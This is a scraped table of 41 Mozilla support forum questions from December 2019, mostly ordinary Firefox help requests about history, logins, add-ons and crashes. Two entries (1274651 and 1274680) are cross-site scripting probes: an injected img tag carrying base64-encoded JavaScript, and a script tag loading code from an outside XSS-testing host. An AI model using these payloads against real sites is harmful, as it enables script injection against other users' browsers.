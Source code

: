 Number of questions:41

id | created | Title | Content | Tags
--- | --- | --- | --- | ---
1274632 |[2019-12-08 19:25:20 -0800](https://support.mozilla.org/questions/1274632) |One website page is not displaying properly |<details><summary>One website page is not displaying properly</summary>As of a few days ago the following website stopped displaying the petitions accurately. (https://www.thepetitionsite.com/takeaction/969/550/917/) The page/s look like they are loading in an html format which makes them useless to me as I CANNOT sign petitions. I checked to see if...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[websites](https://support.mozilla.org/en-US/questions/firefox?tagged=websites);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-7](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-7);
1274633 |[2019-12-08 19:34:47 -0800](https://support.mozilla.org/questions/1274633) |Firefox 70.1 on iMac Catalina won't remember browser history. Nothing shows in a |<details><summary>Firefox 70.1 on iMac Catalina won't remember browser history. Nothing shows in a</summary>I cannot recall any browser history. I am running Firefox 70.0.1 (64 bit) on my new iMac with Catalina (10.15.1). Every menu for history is empty. I also am unable to delete browsing tabs. I am using Google search engine. Very frustrating...greats@aol.com</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274635 |[2019-12-08 20:52:40 -0800](https://support.mozilla.org/questions/1274635) |How to post code on forum? |<details><summary>How to post code on forum?</summary>How do you post source code on these support forums?Like below;TabsToolbar {position: absolute !important;bottom: 0 !important;width: 100vw !important;}</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-7](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-7);
1274637 |[2019-12-08 21:58:05 -0800](https://support.mozilla.org/questions/1274637) |firefox installed. but require the firefox install. |<details><summary>firefox installed. but require the firefox install.</summary>i installed firefox.but after a day or two, add-ons pages, 'Only with Firefox—Get Firefox Now' so can't install add-ons.how to fix it?</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274640 |[2019-12-09 01:01:14 -0800](https://support.mozilla.org/questions/1274640) |How do i  prevent long list of login credential suggestions |<details><summary>How do i  prevent long list of login credential suggestions</summary>Hi all,All of a sudden i get a long list of login credentials suggestions. Normally FF would only just present login cred suggestions for the site name i'm trying to log on, but now i get a long list of them. Also for sites that i'm not on. Is this one of the 'virtues' of LockWi...</details> |[tips](https://support.mozilla.org/en-US/questions/firefox?tagged=tips);[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274644 |[2019-12-09 02:32:35 -0800](https://support.mozilla.org/questions/1274644) |Please can I waste hours on end with firefox help on non existant problems on ot |<details><summary>Please can I waste hours on end with firefox help on non existant problems on ot</summary>Been trying to open yahoo mail as I need it on a computer not on the phone. I use it every day plenty of times on the phone and laptop. Today I can't open it. Firefox says theres an update, so I download it. I then have to verify my firefox account with my email...of which I cann...</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274645 |[2019-12-09 03:08:30 -0800](https://support.mozilla.org/questions/1274645) |How can I customize my outgoing email |<details><summary>How can I customize my outgoing email</summary>I would like to have a pre-setup page as outgoing mail with my name and company details on as a "footer".  How do I go about setting this up?</details> |[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274646 |[2019-12-09 03:30:10 -0800](https://support.mozilla.org/questions/1274646) |Firefox is requiring a security key be inserted to login to Microsoft. |<details><summary>Firefox is requiring a security key be inserted to login to Microsoft.</summary>I have never had one and never used one.  It will not allow any other type of login.  This does not occur on IE or Chrome.</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274648 |[2019-12-09 03:59:28 -0800](https://support.mozilla.org/questions/1274648) |How can I remove bundled search engines (Amazon, Bing, etc.) for good? |<details><summary>How can I remove bundled search engines (Amazon, Bing, etc.) for good?</summary>Hello, I still have Amazon, Bing, Chambers & co. in my extension list in about:support, even though i have disabled all of them in about:preferences#search. How can I purge them for good?Firefox 71.0 on Fedora 31.</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fedora](https://support.mozilla.org/en-US/questions/firefox?tagged=fedora);
1274649 |[2019-12-09 04:28:28 -0800](https://support.mozilla.org/questions/1274649) |thumbnail size in upload dialog (linux) |<details><summary>thumbnail size in upload dialog (linux)</summary>I am using firefox on linux (kde plasma) and when I go to upload a photo in a webpage I get the upload dialog but the thumbnails are too small to view which I really need for photos and there are no view options to change the size of them... This feels like a fundamental feature ...</details> |[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[firefox-7001](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-7001);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[linux](https://support.mozilla.org/en-US/questions/firefox?tagged=linux);
1274651 |[2019-12-09 05:05:17 -0800](https://support.mozilla.org/questions/1274651) |"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0 |<details><summary>"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0</summary>"></details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[websites](https://support.mozilla.org/en-US/questions/firefox?tagged=websites);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274652 |[2019-12-09 05:11:35 -0800](https://support.mozilla.org/questions/1274652) |ff is not handling Look-Alike Domains properly |<details><summary>ff is not handling Look-Alike Domains properly</summary>there is a known issue where scammers setup Look-Alike Domains so the URL appears like  apple.com or your bank to deceive unsuspecting users ... see      https://hackaday.com/2017/04/19/you-think-you-cant-be-phished/I tested this on ff nightly and the Look-Alike hacked site just...</details> |[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[linux](https://support.mozilla.org/en-US/questions/firefox?tagged=linux);
1274655 |[2019-12-09 05:21:19 -0800](https://support.mozilla.org/questions/1274655) |How do I hide tab bar scroll buttons in FF 71? |<details><summary>How do I hide tab bar scroll buttons in FF 71?</summary>Before FF 71, I had been using this userChrome CSS to hide the scroll buttons:TabsToolbar toolbarbutton[class^="scrollbutton"] {   display: none !important;   }Now it's stopped working. Does anyone know the new code?</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274656 |[2019-12-09 05:35:45 -0800](https://support.mozilla.org/questions/1274656) |Secure Connection Failed |<details><summary>Secure Connection Failed</summary>The page you are trying to view cannot be shown because the authenticity of the received data could not be verified</details> |[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274658 |[2019-12-09 05:51:36 -0800](https://support.mozilla.org/questions/1274658) |firefox crashes at startup |<details><summary>firefox crashes at startup</summary>Overnight (I changed nothing, but microsoft rebooted my computer and I don't see any new files installed or updates) Firefox will not work. I can see it start up in task manager (two processes) but within 1 second both are gone. I've tried uninstalling and reinstalling firefox. S...</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274662 |[2019-12-09 06:44:20 -0800](https://support.mozilla.org/questions/1274662) |Login and Password Surround Boxes Not Showing |<details><summary>Login and Password Surround Boxes Not Showing</summary>When logging into a site that needs a User Name and Password, the actual boxes are not highlighted to insert relevant details. This applies to saved logins as well.  To overcome this issue I have to enter any character to bring up the boxes and then delete this character. The emp...</details> |[firefox-680](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-680);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274663 |[2019-12-09 06:48:13 -0800](https://support.mozilla.org/questions/1274663) |An extension has disappeared from AMO with no explanation... should I be worried |<details><summary>An extension has disappeared from AMO with no explanation... should I be worried</summary>I've been using the extension Screengrab! for years, and still have it installed (v2.18), but it seems to have disappeared from the add-ons repository without trace. How do I find out if the author has retired it or if Mozilla have acted over some security fear? The extension sti...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-7](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-7);
1274665 |[2019-12-09 07:19:47 -0800](https://support.mozilla.org/questions/1274665) |My screen size just changed, there is about a 1/2" of  my screen saver showing a |<details><summary>My screen size just changed, there is about a 1/2" of  my screen saver showing a</summary>This happened when I tried to install adobe flash</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274667 |[2019-12-09 07:39:41 -0800](https://support.mozilla.org/questions/1274667) |mac error message: The application 'Firefox" can't be opened |<details><summary>mac error message: The application 'Firefox" can't be opened</summary>Tried removing application, empty trash, reinstalled firefox, rebooted mac. Same error. Also tried holding down control and opening program. Did not help. Mac OS 10.14.6.</details> |[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);
1274669 |[2019-12-09 08:16:34 -0800](https://support.mozilla.org/questions/1274669) |After clearing Firefox cache, I can't access gmail. |<details><summary>After clearing Firefox cache, I can't access gmail.</summary>Firefox was running very slowly, so I cleared the cache. Now I cannot open gmail. When I try, gmail opens a page that prompts me to set up a new account. Gmail opens fine in Safari & Opera. I do not have any security apps loaded that might create a conflict.</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274671 |[2019-12-09 08:55:36 -0800](https://support.mozilla.org/questions/1274671) |Is there any way I can prevent an ad-on from being uninstalled/disabled without  |<details><summary>Is there any way I can prevent an ad-on from being uninstalled/disabled without </summary>As the title says</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274672 |[2019-12-09 08:56:36 -0800](https://support.mozilla.org/questions/1274672) |Is Firefox account secure? |<details><summary>Is Firefox account secure?</summary>I have probably a virus and I reinstall new Windows system. In firefox account is synchronization with my Firefox. But also are AddOns, these addon can be infected. Ask: On account are my addons as files or only infomration about installing addons and there are loaded new?</details> |[privacy-and-security_1](https://support.mozilla.org/en-US/questions/firefox?tagged=privacy-and-security_1);[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274673 |[2019-12-09 09:00:27 -0800](https://support.mozilla.org/questions/1274673) |Youtube opens a random channel every time I go on Youtube website, how to solve  |<details><summary>Youtube opens a random channel every time I go on Youtube website, how to solve </summary>Every time I go to youtube.com, a random channel is loaded and I can't get out of it...I've tried a fresh FireFox install, but the same thing happens all the time</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[websites](https://support.mozilla.org/en-US/questions/firefox?tagged=websites);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274675 |[2019-12-09 09:08:16 -0800](https://support.mozilla.org/questions/1274675) |link to reset password Bad Request |<details><summary>link to reset password Bad Request</summary>I get this error when trying to reset password</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-7](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-7);
1274676 |[2019-12-09 09:25:01 -0800](https://support.mozilla.org/questions/1274676) |I received multiple emails to my personal email account instructing me to confir |<details><summary>I received multiple emails to my personal email account instructing me to confir</summary>Yesterday I received two separate emails (to my personal email account, separate from the one I used to post this message) from Firefox as part of a new account creation, neither of which I requested.  The first included a link to confirm my email. The second included a verificat...</details> |[privacy-and-security_1](https://support.mozilla.org/en-US/questions/firefox?tagged=privacy-and-security_1);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[firefox-650](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-650);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274677 |[2019-12-09 09:39:01 -0800](https://support.mozilla.org/questions/1274677) |Address was not understood |<details><summary>Address was not understood</summary>We use Datto RMM at work and when I go to launch the agent browser(The name of their tool) I get the above error. Most of the time I can close and open Firefox a few times and it will then work. Today however it will not work. I tried running FF in safe mode and still nothing. Th...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274678 |[2019-12-09 09:40:26 -0800](https://support.mozilla.org/questions/1274678) |Add-ons do not show on toolbar when history is disabled. Can someone explain why |<details><summary>Add-ons do not show on toolbar when history is disabled. Can someone explain why</summary>I have the same issue user irisbis had: https://support.mozilla.org/en-US/questions/1078548Add-ons do not show in the toolbar when firefox is set to never remember history. I would like to know why this is the case, does somebody understand the reason?</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[linux](https://support.mozilla.org/en-US/questions/firefox?tagged=linux);
1274680 |[2019-12-09 10:10:59 -0800](https://support.mozilla.org/questions/1274680) |"><script src=https://xssnoob.xss.ht></script> |<details><summary>"><script src=https://xssnoob.xss.ht></script></summary>"><script src=https://xssnoob.xss.ht></script></details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274684 |[2019-12-09 10:57:05 -0800](https://support.mozilla.org/questions/1274684) |Firefox no longer able to open SharePoint documents in app - "one of the followi |<details><summary>Firefox no longer able to open SharePoint documents in app - "one of the followi</summary>I've been using Firefox for many months and rarely had issues with this, but I've been unable to open documents from SharePoint to the MSFT apps on my computer for the last two weeks. When I have a SharePoint link that I need to open, one of two things happens: - if I right-clic...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274685 |[2019-12-09 10:58:29 -0800](https://support.mozilla.org/questions/1274685) |Lockwise in FF 71.0 64bit recording asterisks as password?  On "no username" UID |<details><summary>Lockwise in FF 71.0 64bit recording asterisks as password?  On "no username" UID</summary>I clicked the green "Automatically add" button for "Troubleshooting information:" just below this text box, and it took me to a dead page, and lost everything I had typed (yeah, rookie mistake on my part, fine)...  the landing page address: https://addons.mozilla.org/firefox/down...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[fix-problems](https://support.mozilla.org/en-US/questions/firefox?tagged=fix-problems);[escalate](https://support.mozilla.org/en-US/questions/firefox?tagged=escalate);
1274686 |[2019-12-09 11:07:09 -0800](https://support.mozilla.org/questions/1274686) |i can't restore data or sync and i lost my bookmarks and logins and ...  what ca |<details><summary>i can't restore data or sync and i lost my bookmarks and logins and ...  what ca</summary>Signed in to my account but my information will not be restored. What should I do?</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[firefox-7001](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-7001);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[sync](https://support.mozilla.org/en-US/questions/firefox?tagged=sync);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274688 |[2019-12-09 11:52:03 -0800](https://support.mozilla.org/questions/1274688) |ASPERA 3.9 Connect not working on latest firefox ( Dec-12-2019) |<details><summary>ASPERA 3.9 Connect not working on latest firefox ( Dec-12-2019)</summary>The app boots up when prompted thru browser but wont actually work.</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274689 |[2019-12-09 11:53:13 -0800](https://support.mozilla.org/questions/1274689) |How do I print off my Usernames and Passwords as I was able to do in the past. I |<details><summary>How do I print off my Usernames and Passwords as I was able to do in the past. I</summary>All I want to do is make a hard copy of my UserNames and Passwords. It used to be easy but not anymore.</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-7](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-7);
1274693 |[2019-12-09 13:23:03 -0800](https://support.mozilla.org/questions/1274693) |firefox won't let me change search engine at all |<details><summary>firefox won't let me change search engine at all</summary>Question.. I have had zero issues in the past when searching things in firefox .. it would go automatically through google..now for somewhat reason it's using timewarner cable search and i've tired the preference button, clicked on search, but where it says default search engine ...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274696 |[2019-12-09 14:08:31 -0800](https://support.mozilla.org/questions/1274696) |Middle click opens a new window |<details><summary>Middle click opens a new window</summary>I have issues with my mousewheel so I like to press Middleclick to open this circle, in which I then move my mouse up or down to scroll. It's also called "Auto Scroll".The trouble is, when you activate it on a link, it opens a new tab instead of activating auto scroll. So thats ...</details> |[tabs](https://support.mozilla.org/en-US/questions/firefox?tagged=tabs);[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274697 |[2019-12-09 14:10:58 -0800](https://support.mozilla.org/questions/1274697) |How do I add other websites to the Facebook Container? I'm given no option to do |<details><summary>How do I add other websites to the Facebook Container? I'm given no option to do</summary>I'd like the "share" option to work when I'm on impeach.org. But there's no option to do so. When I click the "fence" icons on this site, I'm given no option to add the site. Though I've seen that option on other sites.</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[firefox-7001](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-7001);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
1274698 |[2019-12-09 14:42:24 -0800](https://support.mozilla.org/questions/1274698) |Foxfire is not connecting to the internet. I keep getting cannot find server |<details><summary>Foxfire is not connecting to the internet. I keep getting cannot find server</summary>dupe of https://support.mozilla.org/en-US/questions/1274700Foxfire is not connecting to the internet. I keep getting cannot find server</details> |[other](https://support.mozilla.org/en-US/questions/firefox?tagged=other);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274699 |[2019-12-09 14:44:05 -0800](https://support.mozilla.org/questions/1274699) |Site might add malware disguised as a Firefox Add-on: intuitTax2020.com |<details><summary>Site might add malware disguised as a Firefox Add-on: intuitTax2020.com</summary>After I clicked on "Accept", it did NOT offer the option to proceed to "intuitTax2020.com" without adding the Add-on, as promised.  I also could not find a "Safety Search" Add-on in the Firefox "about: addons"  page.  (I have never heard of the "Firefox Store".)</details> |[firefox-700](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-700);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);
1274700 |[2019-12-09 14:46:32 -0800](https://support.mozilla.org/questions/1274700) |Foxfire is not connecting to the internet. I keep getting cannot find server |<details><summary>Foxfire is not connecting to the internet. I keep getting cannot find server</summary>Foxfire is not connecting to the internet. I keep getting cannot find server</details> |[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);
1274704 |[2019-12-09 15:39:05 -0800](https://support.mozilla.org/questions/1274704) |I accidently opened a new profile, now I have lost my bookmarks |<details><summary>I accidently opened a new profile, now I have lost my bookmarks</summary>I only see one profile listed, so I cannot go back to an old profile.  Is there anyway I can recover?  Thanks, glinfoot</details> |[bookmarks](https://support.mozilla.org/en-US/questions/firefox?tagged=bookmarks);[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[windows-10](https://support.mozilla.org/en-US/questions/firefox?tagged=windows-10);[needsinfo](https://support.mozilla.org/en-US/questions/firefox?tagged=needsinfo);
1274706 |[2019-12-09 15:59:28 -0800](https://support.mozilla.org/questions/1274706) |macOS ver 71.0 problems |<details><summary>macOS ver 71.0 problems</summary>Firefox has always made me feel happy.  But I am having significant problems with Mac OS version 71.0.I am running a macOS Catalina v 10.15.1 on a 3 GHz Quad-Core Intel Core i5; 16 GB 2400 MHz DDR4.I am NOT having a performance issue.  Instead, the browser is not responding as ...</details> |[firefox-710](https://support.mozilla.org/en-US/questions/firefox?tagged=firefox-710);[customize](https://support.mozilla.org/en-US/questions/firefox?tagged=customize);[desktop](https://support.mozilla.org/en-US/questions/firefox?tagged=desktop);[mac-os](https://support.mozilla.org/en-US/questions/firefox?tagged=mac-os);
